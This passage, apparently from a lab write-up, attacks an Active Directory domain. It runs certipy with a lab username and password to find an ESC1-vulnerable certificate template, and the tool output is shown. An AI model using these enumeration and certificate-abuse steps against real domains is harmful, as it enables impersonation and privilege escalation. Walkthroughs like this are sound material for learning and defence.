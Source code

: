 Didn't seem like we could dump any `ASREP` hashes with `GetNPUsers`, nor could we dump any usable TGSs/TGTs for any of the users with `GetUserSPNs`.

Let's turn our attention to another avenue we could target, ADCS.

# ESC1 ADCS Exploitation

ADCS is a server role that essentially allows you to integrate PKI (Public Key Infrastructure) into an AD environment. This helps to maintain public key cryptography and digital signature/certificate capabilities. ADCS vulnerabilities can allow us to request a certificate used to authenticate on behalf of another user in the domain. Let's try to find any vulnerable certificate templates that we can use.

`certipy-ad find -vulnerable -username 'peter.turner'@hybrid.vl -password b0cwR+G4Dzl_rw -dc-ip 10.10.194.117`

We'll see that this returns one result of a vulnerable certificate denoted as `HybridComputers`

```
Certificate Templates
  0
    Template Name                       : HybridComputers
    Display Name                        : HybridComputers
    Certificate Authorities             : hybrid-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Domain Computers
                                          HYBRID.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : HYBRID.VL\Administrator
        Write Owner Principals          : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Dacl Principals           : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Property Principals       : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```
